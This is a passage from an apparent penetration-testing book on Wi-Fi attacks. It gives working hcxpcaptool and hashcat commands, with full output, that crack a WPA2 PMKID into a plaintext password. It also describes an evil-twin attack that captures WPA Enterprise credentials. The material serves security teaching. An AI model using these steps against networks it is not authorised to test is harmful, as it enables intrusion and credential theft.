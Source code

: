 ``` $ **hcxpcaptool -z out sep.pcapng** reading from sep.pcapng-2                                                 summary:                                         -------- file name....................: sep.pcapng-2 file type....................: pcapng 1.0 file hardware information....: x86_64 file os information..........: Linux 5.2.0-kali2-amd64 file application information.: hcxdumptool 5.1.4 network type.................: DLT_IEEE802_11_RADIO (127) endianness...................: little endian read errors..................: flawless packets inside...............: 171 skipped packets..............: 0 packets with GPS data........: 0 packets with FCS.............: 0 beacons (with ESSID inside)..: 22 probe requests...............: 9 probe responses..............: 6 association requests.........: 1 association responses........: 10 reassociation requests.......: 1 reassociation responses......: 1 authentications (OPEN SYSTEM): 47 authentications (BROADCOM)...: 46 authentications (APPLE)......: 1 EAPOL packets (total)........: 72 EAPOL packets (WPA2).........: 72 EAPOL PMKIDs (total).........: 19 EAPOL PMKIDs (WPA2)..........: 19 best handshakes..............: 3 (ap-less: 0) best PMKIDs..................: 8  8 PMKID(s) written in old hashcat format (<= 5.1.0) to out ```    This command creates a new file called *out* that contains data in the following format:    ``` 37edb542e507ba7b2a254d93b3c22fae*b4750e5a1387*6045bdede0e2*4b61746879 ```    This * delimited format contains the PMKID value, the AP’s MAC address, the wireless station’s MAC address, and the ESSID. Create a new entry for every PMKID network you identify.    Now use the Hashcat 16800 module to crack the vulnerable network’s password. The only thing missing is a wordlist containing potential passwords for the AP. We’ll use the classic *rockyou.txt* wordlist.    ``` **$ `cd /usr/share/wordlists/ && gunzip -d rockyou.txt.gz`** $ **hashcat -m16800 ./out /usr/share/wordlists/rockyou.txt** OpenCL Platform #1: NVIDIA Corporation ======================================  * Device #1: GeForce GTX 970M, 768/3072 MB allocatable, 10MCU OpenCL Platform #2: Intel(R) Corporation Rules: 1 ... .37edb542e507ba7b2a254d93b3c22fae*b4750e5a1387*6045bdede0e2*4b61746879: **purple123** 1 Session..........: hashcat Status...........: Cracked Hash.Type........: WPA-PMKID-PBKDF2 Hash.Target......: 37edb542e507ba7b2a254d93b3c22fae*b4750e5a1387*6045b...746879 Time.Started.....: Sat Nov 16 13:05:31 2019 (2 secs) Time.Estimated...: Sat Nov 16 13:05:33 2019 (0 secs) Guess.Base.......: File (/usr/share/wordlists/rockyou.txt) Guess.Queue......: 1/1 (100.00%) Speed.#1.........:   105.3 kH/s (11.80ms) @ Accel:256 Loops:32 Thr:64 Vec:1 Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts Progress.........: 387112/14344385 (2.70%) Rejected.........: 223272/387112 (57.68%) Restore.Point....: 0/14344385 (0.00%) Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1 Candidates.#1....: 123456789 -> sunflower15 Hardware.Mon.#1..: Temp: 55c Util: 98% Core:1037MHz Mem:2505MHz Bus:16  Started: Sat Nov 16 13:05:26 2019 Stopped: Sat Nov 16 13:05:33  ```    The Hashcat tool manages to extract the password 1: `purple123`.    ### Cracking into WPA/WPA2 Enterprise to Capture Credentials    In this section, we provide an overview of attacks against WPA Enterprise. An actual exploitation of WPA Enterprise is outside the scope of this book, but we’ll briefly cover how such an attack works.    WPA Enterprise is a more complex mode than WPA Personal and is mainly used for business environments that require extra security. This mode includes an extra component, a *Remote Authentication Dial-In User Service (RADIUS)* server, and uses the 802.1x standard. In this standard, the four-way handshake occurs after a separate authentication process, the EAP. For this reason, the attacks on WPA Enterprise focus on breaking EAP.    EAP supports many different authentication methods, the most common of which are Protected-EAP (PEAP) and EAP-Tunneled-TLS (EAP-TTLS). A third method, EAP-TLS, is becoming more popular due to its security features. At the time of this writing, EAP-TLS remains a safe choice, because it requires security certificates on both sides of the wireless connection, providing a more resilient approach to connecting to an AP. But the administrative overhead of managing the server and the client certificates might deter most network administrators. The other two protocols perform certificate authentication to the server only, not to the client, allowing the clients to use credentials that are prone to interception.    Network connections in the WPA Enterprise mode involve three parties: the client, the AP, and the RADIUS authentication server. The attack described here will target the authentication server and the AP by attempting to extract the victim’s credential hashes for an offline brute-force attack. It should work against the PEAP and EAP-TTLS protocols.    First, we create a fake infrastructure containing a fake AP and a RADIUS server. This AP should mimic the legitimate one by operating with the same BSSID, ESSID, and channel. Next, because we’re targeting the clients rather than the AP, we’ll deauthenticate the AP’s clients. The clients will attempt to reconnect to their target AP by default, at which point our malicious AP will associate the victims to it. This way, we can capture their credentials. The captured credentials will be encrypted, as mandated by the protocol. Fortunately for us, the PEAP and EAP-TTLS protocols use the MS-CHAPv2 encryption algorithm, which uses the Data Encryption Standard (DES) under the hood and is easily cracked. Equipped with a list of captured encrypted credentials, we can launch an offline brute-force attack and recover the victim’s credentials.    ## A Testing Methodology    When performing a security assessment on Wi-Fi enabled systems, you could follow the